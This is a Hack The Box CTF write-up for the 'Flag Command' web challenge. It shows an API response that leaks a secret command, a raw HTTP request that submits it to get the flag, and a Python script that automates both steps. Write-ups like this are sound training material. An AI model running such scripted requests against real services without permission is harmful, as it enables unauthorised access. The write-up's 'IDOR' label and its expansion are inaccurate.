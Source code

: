 ```yaml
---
date:
  created: 2025-08-01
categories:
  - CTF Writeup
  - Hackthebox
  - Web Application Penetration Testing
authors:
  - dibsy
---
```


# Flag Command Writeup

### Summary

The application has an IDOR (Indirect Object Reference) vulnerability which can be used to retrieve the flag.

### Exploitation

No source code was provided for this challenge. Looking through the API calls over burp proxy revealed a particular API which had a list of commands in it.

!!! info "GET http://94.237.48.12:55286/api/options"
```json 

{
  "allPossibleCommands": {
    "1": [
      "HEAD NORTH",
      "HEAD WEST",
      "HEAD EAST",
      "HEAD SOUTH"
    ],
    "2": [
      "GO DEEPER INTO THE FOREST",
      "FOLLOW A MYSTERIOUS PATH",
      "CLIMB A TREE",
      "TURN BACK"
    ],
    "3": [
      "EXPLORE A CAVE",
      "CROSS A RICKETY BRIDGE",
      "FOLLOW A GLOWING BUTTERFLY",
      "SET UP CAMP"
    ],
    "4": [
      "ENTER A MAGICAL PORTAL",
      "SWIM ACROSS A MYSTERIOUS LAKE",
      "FOLLOW A SINGING SQUIRREL",
      "BUILD A RAFT AND SAIL DOWNSTREAM"
    ],
    "secret": [
      "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
    ]
  }
}
```

On sending a command over HTTP to the endpoint /api/monitor/ revealed the next actions; which can be failed, or require next command. The most important observation from the above response is the secret message. This secret command reveals the flag.

!!! info "POST /api/monitor"
```http
Host: 94.237.48.12:55286
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Referer: 94.237.48.12:55286
Content-Length: 69
Content-Type: application/json

{"command": "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}
```
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Wed, 30 Jul 2025 11:39:25 GMT
Content-Type: application/json
Content-Length: 76
Connection: close

{
  "message": "HTB{D3v3l0p3r_t00l5_4r3.........}"
}
```

### Automation

```python
import requests
import json

IP = "94.237.48.12:55286"

headers = {
    "User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
    "Accept":"*/*",
    "Referer": IP
}

proxies = {
    "http":"127.0.0.1:8080"
}

# Retrieve Secret
r = requests.get(f"http://{IP}/api/options",headers=headers,proxies=proxies)

data = r.json()
secret = data["allPossibleCommands"]["secret"][0]

secret_data = { "command": secret }

r = requests.post(f"http://{IP}/api/monitor",json=secret_data,proxies=proxies,headers=headers)
print(r.text)
```

